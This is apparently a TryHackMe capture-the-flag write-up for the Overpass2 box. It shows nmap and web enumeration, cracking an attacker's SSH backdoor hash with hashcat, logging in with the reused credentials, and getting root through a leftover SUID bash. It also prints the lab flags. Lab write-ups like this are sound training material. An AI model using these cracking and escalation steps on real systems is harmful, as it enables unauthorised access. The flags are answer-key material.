






Links: [[TryHackMe Boxes]]

# Overpass2

### System IP: 10.10.248.125

#### Service Enumeration

Server IP Address | Ports Open
------------------|----------------------------------------
10.10.248.125       | **TCP**: 22,80,2222


**Nmap Scan Results:**
```
# Nmap 7.91 scan initiated Mon Feb 15 21:33:45 2021 as: nmap -vv --reason -Pn -A --osscan-guess --version-all -p- -oN /home/ttl0/autorecon/results/10.10.248.125/scans/_full_tcp_nmap.txt -oX /home/ttl0/autorecon/results/10.10.248.125/scans/xml/_full_tcp_nmap.xml 10.10.248.125
Nmap scan report for 10.10.248.125
Host is up, received user-set (0.092s latency).
Scanned at 2021-02-15 21:33:45 EST for 264s
Not shown: 65532 closed ports
Reason: 65532 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:3a:be:ed:ff:a7:02:d2:6a:d6:d0:bb:7f:38:5e:cb (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCytc0lfgdX4r5ZxA8cr9Qi/66ppcB+fyEtT75IUtKC32Y/rpvBfFGRg9YxHVhKQKBDh1KlgXL3hJTJH1aqjEPtwXORQx+QmK5yFFQa524mKj3WzFZswUcDTk4s4F+m761x+QZMcb//UJhWuqiZ2QV+GW1UJsawrFhK3nogzIQ/eomxxR6TodNx2z2CzVahLULWcQjAMOKPAlqF5vsaoWk39Y4u9JDqA2JdEI2//kIb4RjuMbZDOtUDCgPypTCMgLKzIzAZQ54nWsHoUHoGUdPlon1mkVKgno/9cjZVwqveqQpQpO3DrQpjdB6xiCzBz34H9iUMvCEgJab64WkIGLGH
|   256 fc:6f:22:c2:13:4f:9c:62:4f:90:c9:3a:7e:77:d6:d4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGidEthZX/MDeUCmzLRQlezisPE1OceyHa6QBfwGnWirEYCdHM68kMGFlNJODkA7dunY+TUARD5WcjXMAN1iw7A=
|   256 15:fd:40:0a:65:59:a9:b5:0e:57:1b:23:0a:96:63:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPQ1lZqbCdY81xFaGZ1fwaVxJExe5+meLXraNAjwWTAm
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LOL Hacked
2222/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Debian 4 (protocol 2.0)
| ssh-hostkey: 
|   2048 a2:a6:d2:18:79:e3:b0:20:a2:4f:aa:b6:ac:2e:6b:f2 (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDlwW5RS5iWPR+x1AVz4TAWAr/fSvF3KC16voiHSUImF8fNiWT4Pcb5KADkmhssq4amO2uyN+gF9KpEbXrVj63hKdkJrF4lQnzlxX8mHeeg9CLWA1/zI1BZ8TDmC9h45K3DwJjcD8zb56JPDi20PoIjVe3zUe3lf2geBxsAyhR5Cs4vWWUBzyocdkFDu+QXirPJv5lxcuiPhUVyDQZtHOK9evrXOOpeZiYgpqxcYTqHk5JcZbrV1sTNU8mkQiJXuVDQO+hOoOO7yES3reMv0pDXtc/Cfz5ZHJuAaGhU/fawIjUBlIeXY3wjUJe3UYgm1qE/idyq+9rU5TVApjxo+mjR
Aggressive OS guesses: Linux 3.1 (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=2/15%OT=22%CT=1%CU=39426%PV=Y%DS=2%DC=T%G=Y%TM=602B301
OS:1%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10A%TI=Z%CI=Z%TS=A)OPS(O1=M
OS:506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7%
OS:O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%
OS:DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=
OS:0%Q=)T2(R=N)T2(R=Y%DF=Y%T=40%W=F4B3%S=O%A=O%F=AS%O=M506ST11NW7%RD=0%Q=)T
OS:3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S
OS:=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%
OS:RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 21.667 days (since Mon Jan 25 05:37:26 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1723/tcp)
HOP RTT      ADDRESS
1   92.70 ms 10.9.0.1
2   91.35 ms 10.10.248.125

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 15 21:38:09 2021 -- 1 IP address (1 host up) scanned in 264.21 seconds

```

**Web Enumeration Results:**
```
/404.html (Status: 200) [Size: 782]
/aboutus (Status: 301) [Size: 316]
/css (Status: 301) [Size: 312]
/downloads (Status: 301) [Size: 318]
/img (Status: 301) [Size: 312]
/index.html (Status: 200) [Size: 815]
/index.html (Status: 200) [Size: 815]
/server-status (Status: 403) [Size: 278]

```

**Initial Shell Vulnerability Exploited:**

We were given a Wireshark PCAP file and we were able to determine through the TCP stream that a hacker used a Go ssh backdoor found at:
`https://github.com/NinjaJc01/ssh-backdoor` 



By looking at the the main.go file of the backdoor we can see the salt being used:

```go
func passwordHandler(\_ ssh.Context, password string) bool {

return verifyPass(hash, "1c362db832f3f864c8c2fe05f2002a05", password)

}
```

From the same Wireshark capture we were able to get information on the hash used for their backdoor:



```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

Using Hashcat we are able to use the salt and hash together joined by a `:` and crack the password:
```
ttl0@kali:~/hashes/TryHackMe/Overpass2$ cat hash.txt
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05
dmonasterios@wwp-dmona:~/hashes/TryHackMe/Overpass2$ hashcat -m 1710 -o results.txt hash.txt ~/passwords/rockyou.txt
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-AMD Ryzen 9 3900X 12-Core Processor, 8192/30635 MB allocatable, 24MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash
* Uses-64-Bit

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimim salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=4 -D DEVICE_TYPE=2 -D DGST_R0=14 -D DGST_R1=15 -D DGST_R2=6 -D DGST_R3=7 -D DGST_ELEM=16 -D KERN_TYPE=1710 -D _unroll'
* Device #1: Kernel m01710_a0-pure.68e1465f.kernel not found in cache! Building may take a while...
Dictionary cache built:
* Filename..: ~/passwords/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 2 secs


Session..........: hashcat
Status...........: Cracked
Hash.Type........: sha512($pass.$salt)
Hash.Target......: 6d05358f090eea56a238af02e47d44ee5489d234810ef624028...002a05
Time.Started.....: Mon Feb 15 21:50:51 2021 (0 secs)
Time.Estimated...: Mon Feb 15 21:50:51 2021 (0 secs)
Guess.Base.......: File (~/passwords/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   283.6 kH/s (3.31ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 24576/14344384 (0.17%)
Rejected.........: 0/24576 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: 123456 -> 280690

Started: Mon Feb 15 21:50:40 2021
Stopped: Mon Feb 15 21:50:52 2021
```

We cracked the password
```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
```

If we log on to the web server we see the hackers name "CooctusClan"



We find the port on which the backdoor connects to through the wireshark capture.



The port is also hard-coded in the backdoor Go code:
```go
func main() {
	var (
		lport       uint   = 2222
		lhost       net.IP = net.ParseIP("0.0.0.0")
		keyPath     string = "id_rsa"
		fingerprint string = "OpenSSH_8.2p1 Debian-4"
	)

```

We attempt to login to the server with SSH on port 2222 with the credentials we found:
```
Username: CooctusClan
Password: november16
```

We get an initial shell.

**Vulnerability Explanation:**
We were able to re-use credentials used from the hacker by cracking their hash.

**Vulnerability Fix:**
Do not make your username known when you deface a website. A hacker should also change the hash of their backdoor if it is publicly available.

**Severity:**
Medium

**Local.txt Proof Screenshot**



**Local.txt Contents**

```
james@overpass-production:/home/james$ hostname && whoami && cat ~/user.txt && ip
overpass-production
james
thm{d119b4fa8c497ddb0525f7ad200e6567}
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:3e:f4:2b:fb:db brd ff:ff:ff:ff:ff:ff
    inet 10.10.248.125/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3510sec preferred_lft 3510sec
    inet6 fe80::3e:f4ff:fe2b:fbdb/64 scope link 
       valid_lft forever preferred_lft forever

```

#### Privilege Escalation
We found a binary that spawns a bash shell with root privileges and does not ask for a password. It's executable by all in the home directory:

```
james@overpass-production:/home/james$ ls -lah
total 1.5M
drwxr-xr-x 7 james james 4.0K Feb 16 03:22 .
drwxr-xr-x 7 root  root  4.0K Jul 21  2020 ..
lrwxrwxrwx 1 james james    9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james 3.7K Apr  4  2018 .bashrc
drwx------ 2 james james 4.0K Jul 21  2020 .cache
drwx------ 3 james james 4.0K Feb 16 03:22 .gnupg
drwxrwxr-x 3 james james 4.0K Jul 22  2020 .local
-rw------- 1 james james   51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james  807 Apr  4  2018 .profile
-rw-r--r-- 1 james james    0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1.1M Jul 22  2020 .suid_bash
-rwxr-xr-x 1 james james 318K Feb 14 17:26 linpeas.sh
-rwxr-xr-x 1 james james  40K Feb 14 02:39 lse.sh
drwxrwxr-x 3 james james 4.0K Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james   38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james 4.0K Jul 21  2020 www
cess|no such file"duction:/home/james$ strace .suid_bash 2>&1 | grep -E "open|ac 
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root

```

**Vulnerability Exploited:**
An insecure SUID root binary on a system can be exploited by local users in order to escalate privileges to root.

**Vulnerability Explanation:**
We re-used a SUID binary left from the hacker after privilege exploitation of a SUID file. This binary spawns a bash shell and with the -p we can make sure that the effective user id is not reset, inheriting root properties.

**Vulnerability Fix:**
Do not make binaries that do require a password and that have the SUID bit set available to all users to execute.

**Severity:**
Critical

**Proof Screenshot Here:**



**Proof.txt Contents:**
```
.suid_bash-4.4# hostname && whoami && cat /root/root.txt && ip a
overpass-production
root
thm{d53b2684f169360bb9606c333873144d}
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:3e:f4:2b:fb:db brd ff:ff:ff:ff:ff:ff
    inet 10.10.248.125/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2473sec preferred_lft 2473sec
    inet6 fe80::3e:f4ff:fe2b:fbdb/64 scope link 
       valid_lft forever preferred_lft forever
```